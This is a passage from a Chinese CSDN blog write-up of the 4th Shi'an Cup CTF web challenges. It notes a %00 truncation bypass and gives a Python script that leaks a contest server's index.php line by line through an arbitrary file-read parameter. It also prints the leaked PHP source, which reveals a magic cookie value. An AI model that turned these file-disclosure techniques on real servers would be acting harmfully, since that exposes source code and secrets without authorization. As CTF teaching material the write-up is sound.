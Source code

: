 

# 第四届“”世安杯“”线上赛题解（Web+Stego+Misc+Crypto）_Assassin__is__me的博客-CSDN博客

> 来源：[https://blog.csdn.net/qq_35078631/article/details/78176379](https://blog.csdn.net/qq_35078631/article/details/78176379)

题目很多原题，但是还是考验了不少的知识点，就算是原来见过的也当做是复习了一下知识点了。

## **WEB**

### **ctf入门级题目**

非常水的一道题，可以看到源码，然后利用%00截断就可以通过了

<center>![这里写图片描述](img/ce064a0a5147aa2bd6537419793c2797.png)</center>

### **曲奇饼**

原题，直接利用line和file来泄露文件内容，通过臊面轻松知道存在index.php，然后利用一下得到源码审计

```
 import requests
s=requests.session()
file=''
for i in range(19):
    url="http://ctf1.shiyanbar.com/shian-quqi/index.php?line="+str(i)+"&file=aW5kZXgucGhw"
    r=s.get(url)
    content=r.content
    file+=content
print file
```

得到代码如下

```
<?php
error_reporting(0);
$file=base64_decode(isset($_GET['file'])?$_GET['file']:"");
$line=isset($_GET['line'])?intval($_GET['line']):0;
if($file=='') header("location:index.php?line=&file=a2V5LnR4dA==");
$file_list = array(
'0' =>'key.txt',
'1' =>'index.php',
);

if(isset($_COOKIE['key']) && $_COOKIE['key']=='li_lr_480'){
$file_list[2]='thisis_flag.php';
}

if(in_array($file, $file_list)){
$fa = file($file);
echo $fa[$line];
}
?>
```
